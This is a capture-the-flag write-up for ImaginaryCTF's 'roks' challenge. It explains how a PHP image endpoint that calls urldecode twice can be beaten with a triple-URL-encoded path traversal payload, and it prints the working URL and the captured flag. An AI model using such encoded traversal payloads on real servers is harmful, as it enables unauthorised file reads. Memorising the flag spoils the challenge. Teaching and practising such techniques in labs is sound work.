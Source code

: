 # roks
> My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?

## About the Challenge
We were given a source code (You can download the source code [here](roks.zip)) and we got the website too. Here is the preview of the website

![preview](images/preview.png)

There is one button which will generate rock images by hitting `/file.php?image` endpoint. And as you can see in the network tab, `image7` is a file name. Which is we can predict this chall was about path traversal vulnerability

## How to Solve?
Let's check the source code! There are 2 files, `index.php` and `file.php`. Here is the content of `file.php`

```php
<?php
  $filename = urldecode($_GET["file"]);
  if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
  } else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
  }
?>
```

This PHP script takes a file name from the parameter called `file`, checks if there is `.` or `/` in the value of the parameter, and serves the corresponding image file with the correct MIME content type. If it detects an unsafe file name, it serves a default image instead. And as you can see, this code was vulnerable to path traversal, but this code using `urldecode()` PHP function twice. That's why to do path traversal, we need to URL encode our payload three times

```
http://roks.chal.imaginaryctf.org/file.php?file=%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566flag%25252Epng
```

Open the URL in your browser and then you will get a flag in the form of an image

![flag](images/flag.png)

```
ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}
```